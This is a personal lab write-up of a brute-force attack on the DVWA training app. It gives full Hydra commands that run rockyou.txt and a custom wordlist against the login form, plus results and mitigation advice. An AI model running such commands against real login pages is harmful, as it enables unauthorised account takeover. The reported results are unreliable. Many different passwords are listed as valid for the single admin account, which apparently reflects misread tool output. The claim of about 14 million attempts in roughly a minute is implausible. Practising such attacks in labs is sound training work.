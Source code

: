 # DVWA Brute Force Attack: A Personal Journey

## Introduction

Hey there! Today, I'm excited to share my adventure in exploiting the brute force vulnerability in DVWA (Damn Vulnerable Web Application). This journey took me from setting up the environment to successfully executing the attack. Remember, this was all done in a controlled, legal environment for educational purposes.

## Environment Setup

For this exercise, I set up DVWA using Docker on my local machine and accessed it from Kali Linux running in VMware. Here's how I did it:

1. Deployed the DVWA container on my host machine.
2. Configured the Kali Linux VM network adapter in bridged mode.
3. Added the host machine's IP to Kali's `/etc/hosts` file as `dvwa.local`.

![DVWA container running in Docker Desktop](../images/docker-desktop.png)

## The Brute Force Attack

### Initial Reconnaissance

I started by accessing the DVWA interface and navigating to the "Brute Force" section:

![DVWA Brute Force login page](../images/dvwa-bruteforce-page.png)

The page presented a simple login form with two key security weaknesses I could exploit:
1. No limit on login attempts.
2. Clear error messages that reveal whether the attempt failed:

![Clear error message on failed login](../images/dvwa-error-message.png)

### Attack Execution

I decided to use Hydra, a powerful brute force tool in Kali Linux. My attack strategy had two phases:

1. **Initial Test**: I used a small custom wordlist to verify the attack would work:
```bash
hydra -l admin -P wordlist.txt dvwa.local http-post-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect." -V
```

The initial test was successful:

![Hydra execution with small wordlist](../images/hydra-small-wordlist.png)

2. **Full Attack**: I scaled up using the rockyou.txt wordlist:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt dvwa.local http-post-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect." -V
```

The full attack revealed multiple valid passwords:

![Hydra execution with rockyou.txt](../images/hydra-rockyou.png)

### Results Analysis

The brute force attack revealed several interesting findings:

1. Valid credentials discovered:
   - admin:123456
   - admin:password
   - admin:letmein
   - admin:admin
   - admin:jessica
   - admin:princess
   - admin:rockyou
   And several others...

2. Attack Statistics:
   - Time taken: ~1 minute
   - Number of attempts: 14344399 possible combinations
   - Success rate: Multiple valid combinations found

### Successful Access

To verify the findings, I tested one of the discovered credentials:

![Successful login with discovered credentials](../images/successful-login.png)

The success message "Welcome to the password protected area admin" confirmed our attack had worked.

## Security Implications

This exercise demonstrated several security concerns:

1. No rate limiting on login attempts.
2. Clear text error messages revealing valid/invalid attempts.
3. Common passwords accepted.
4. No multi-factor authentication.

## Mitigation Recommendations

Based on this exercise, I would recommend:

1. Implement account lockout after X failed attempts.
2. Add CAPTCHA or similar challenge-response system.
3. Enforce stronger password policies.
4. Add rate limiting.
5. Use generic error messages.
6. Consider implementing 2FA.

## Conclusion

This exercise demonstrated how easily weak authentication systems can be compromised using readily available tools. It emphasizes the importance of implementing proper security controls in production environments.

## Tools Used
- VMware for running Kali Linux.
- Hydra for brute force attacks.
- Custom wordlist and rockyou.txt dictionary.

## Disclaimer

This walkthrough documents a security testing exercise performed in a controlled, isolated environment for educational purposes. Always obtain proper authorization before performing security testing on any system. 